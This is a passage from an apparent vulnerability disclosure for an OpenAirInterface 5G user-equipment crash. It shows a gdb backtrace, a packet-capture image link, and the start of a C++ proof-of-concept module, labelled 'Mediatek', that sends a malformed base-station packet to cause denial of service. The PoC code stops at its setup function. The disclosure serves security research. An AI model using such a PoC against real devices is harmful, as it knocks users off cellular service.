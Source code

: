 ```console
#5  0x000057fa8a704cc6 in nr_rrc_ue_decode_ccch (ctxt_pP=0x761872bff9a0, Srb_info=<optimized out>, gNB_index=<optimized out>) at /home/user/wdissector/3rd-party/oai_5g_sa/openair2/RRC/NR_UE/rrc_UE.c:1418
#6  0x000057fa8a708b6f in rrc_nrue_task (args_p=<optimized out>) at /home/user/wdissector/3rd-party/oai_5g_sa/openair2/RRC/NR_UE/rrc_UE.c:2364
#7  0x000076188af446db in start_thread (arg=0x761872c00700) at pthread_create.c:463
#8  0x000076188949a61f in clone () at ../sysdeps/unix/sysv/linux/x86_64/clone.S:95
(gdb) 
```

**Malformed Packet Send From the Base Station**
![Malformed Packet](https://github.com/qiqingh/mac_sch_3__LogicalChannelConfig_ul_SpecificParameters_reencoded_0_report/blob/main/3_0_pcap.png)

**PoC Code**
The following PoC code generates a falsified packet sent from the Base Station (sender) to the User Equipment (receiver). Due to a vulnerability in the User Equipment, this packet causes the device to crash, resulting in a Denial of Service (DoS).

To compile and run this PoC code, you'll need the environment described here: https://github.com/asset-group/5ghoul-5g-nr-attacks?tab=readme-ov-file#4--create-your-own-5g-exploits-test-cases

```cpp
#include <ModulesInclude.hpp>

// Filters
wd_filter_t f1;

// Vars

const char *module_name()
{
    return "Mediatek";
}

// Setup
int setup(wd_modules_ctx_t *ctx)
{
    // Change required configuration for exploit
    ctx->config->fuzzing.global_timeout = false;
```